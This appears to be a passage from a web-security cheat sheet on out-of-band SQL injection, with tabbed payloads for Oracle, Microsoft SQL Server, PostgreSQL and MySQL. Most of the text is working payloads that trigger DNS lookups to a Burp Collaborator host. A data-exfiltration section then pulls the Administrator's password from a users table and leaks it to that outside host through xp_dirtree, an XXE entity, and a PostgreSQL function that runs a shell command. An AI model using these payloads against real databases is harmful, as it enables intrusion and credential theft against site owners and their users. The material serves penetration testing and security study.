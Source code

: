 If the vulnerability is patched, you can use the following technique, but it requires elevated privileges:
```sql
SELECT UTL_INADDR.get_host_address('{{ collaborator your-burpcollaborator.net }}')
```

</template>
<template v-slot:microsoft>

```sql
exec master..xp_dirtree '//{{ collaborator your-burpcollaborator.net }}/a'
```

</template>
<template v-slot:pgsql>

```sql
copy (SELECT '') to program 'nslookup {{ collaborator your-burpcollaborator.net }}'
```

</template>
<template v-slot:mysql>

```sql
LOAD_FILE('\\\\{{ collaborator your-burpcollaborator.net }}\\a')
SELECT ... INTO OUTFILE '\\\\{{ collaborator your-burpcollaborator.net }}\a'
```
> These MySQL techniques only works on windows

</template>
</smart-tabs>

#### Data exfiltration

You can use this technique not only for detection but also for data exfiltration:

<smart-tabs variable="dbms" :tabs="{'oracle': 'Oracle', 'microsoft': 'Microsoft', 'pgsql': 'PostgreSQL', 'mysql': 'MySQL'}">
<template v-slot:oracle>

```sql
SELECT extractvalue(xmltype('&lt;&quest;xml version&equals;&quot;1&period;0&quot; encoding&equals;&quot;UTF-8&quot;&quest;&gt;&lt;&excl;DOCTYPE root &lsqb; &lt;&excl;ENTITY &percnt; remote SYSTEM &quot;http&colon;&sol;&sol;'||({{ query SELECT password FROM users WHERE username='Administrator'}})||'.{{ collaborator your-burpcollaborator.net }}/"&gt; &percnt;remote&semi;&rsqb;&gt;'),'/l') FROM dual
```

</template>
<template v-slot:microsoft>

```sql
declare @p varchar(1024);set @p=({{ query SELECT password FROM users WHERE username='Administrator'}});exec('master..xp_dirtree "//'+@p+'.{{ collaborator your-burpcollaborator.net }}/a"')
```

</template>
<template v-slot:pgsql>

```sql
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p ({{ query SELECT password FROM users WHERE username='Administrator'}});
c := 'copy (SELECT '''') to program ''nslookup '||p||'.{{ collaborator your-burpcollaborator.net }}''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```
